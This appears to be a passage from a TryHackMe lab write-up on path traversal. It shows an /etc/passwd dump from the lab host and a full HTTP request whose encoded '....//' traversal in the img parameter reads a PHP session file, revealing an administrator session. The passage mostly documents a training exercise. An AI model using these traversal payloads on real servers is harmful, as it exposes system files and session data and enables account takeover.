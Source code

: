 ```txt
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:114:121::/var/spool/postfix:/usr/sbin/nologin
dovecot:x:115:123:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:116:124:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```

3. Another injection point for path traversal is the PHPSESSID returning the serialized content of the active PHP session
```txt
GET /profile.php?img=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fvar%2flib%2fphp%2fsessions%2fsess_m9m8oilh4h1i3cop8fsm04bn6o HTTP/1.1
Host: 10.10.139.240:50000
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=m9m8oilh4h1i3cop8fsm04bn6o
Connection: keep-alive


HTTP/1.1 200 OK
Date: Mon, 17 Feb 2025 12:58:07 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

username|s:13:"administrator";
```
